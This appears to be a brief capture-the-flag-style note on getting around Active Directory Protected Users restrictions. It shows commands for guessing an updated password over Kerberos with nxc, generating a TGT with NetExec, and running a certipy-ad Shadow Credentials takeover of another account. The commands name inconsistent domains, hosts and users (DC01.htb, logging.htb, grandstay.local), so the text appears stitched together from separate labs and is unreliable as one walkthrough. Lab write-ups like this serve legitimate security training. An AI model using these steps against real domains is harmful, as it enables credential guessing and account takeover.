

# Protected Users Group Restriction bypass

<figure><figcaption></figcaption></figure>

Since our user is a member of the Protected Users group, NTLM authentication cannot be used and delegation is not possible. Additionally, the password appears to be outdated (ending in 2025), so we try the 2026 variant. We then use the -k flag to authenticate via Kerberos instead.

<figure><figcaption></figcaption></figure>


```bash
nxc smb DC01.htb -u svc_recovery -p 'E2026' -k
```


We generate a Kerberos TGT for user using NetExec


```bash
nxc smb 9.22.xxx -u '<>' -p '<>' -d logging.htb -k --generate-tgt 'username'
export KRB5CCNAME=username.ccache
```


We perform a Shadow Credentials attack to take over the user white account


```bash
export KRB5CCNAME=username.ccache
certipy-ad shadow auto -u 'FRANK.EHRMANTRAUT@grandstay.local' -p 'Password@123' -dc-ip 192.168.178.187 -target DC01.grandstay.local -account TERENCE.WHITE -k
```

